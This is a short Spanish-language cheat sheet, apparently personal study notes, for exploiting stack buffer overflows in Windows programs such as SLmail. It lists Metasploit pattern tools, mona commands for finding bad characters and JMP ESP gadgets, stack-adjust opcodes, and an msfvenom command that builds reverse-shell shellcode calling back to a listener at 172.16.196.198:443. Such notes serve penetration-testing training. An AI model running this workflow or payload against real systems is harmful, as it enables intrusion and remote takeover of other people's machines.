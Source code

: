 ## Buffer Overflow

### Generar patron

en linux

<pre>
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 5000
</pre>

### Visualizar el numero por el valor del EIP

<pre>
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 316A4230
</pre>

### Comandos
#### Visualizar Hexadecimal a cadena

<pre>
echo -n "30426A31" | xxd -ps -r;echo
</pre>

#### Visualizar cadena a hexadecimal

<pre>
echo -n "0Bj1" | xxd -ps
</pre>

### MONA

Crear directorio de trabajo

<pre>
!mona config -set workingfolder C:\Users\j4munoff\Desktop\%p
</pre>

Crear bytearray

<pre>
!mona bytearray
</pre>

Crear bytearray excluyendo badchars
<pre>
!mona bytearray -cpb "\x00"
!mona bytearray -b "\x00"
</pre>

Ver los módulos
<pre>
!mona modules
</pre>

Ver saltos al ESP
<pre>
!mona find -s "\xff\xe4" -m Qt5Core.dll
!mona jmp -r esp -cpb "\x00"
</pre>

Comparar Byte ARRAY. La dirección es la del ESP
<pre>
!mona compare -f C:\Users\j4munoff\Desktop\SLmail\bytearray.bin -a 0249A128
</pre>


### msfvenom

<pre>
msfvenom -p windows/shell_reverse_tcp LHOST=172.16.196.198 LPORT=443 --platform windows -a x86 -b "\x00" -f c
</pre>
### Desplazamiento de pila

<pre>
sudo /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > sub esp, 0x10
00000000  83EC10            sub esp,byte +0x10
nasm > 
</pre>
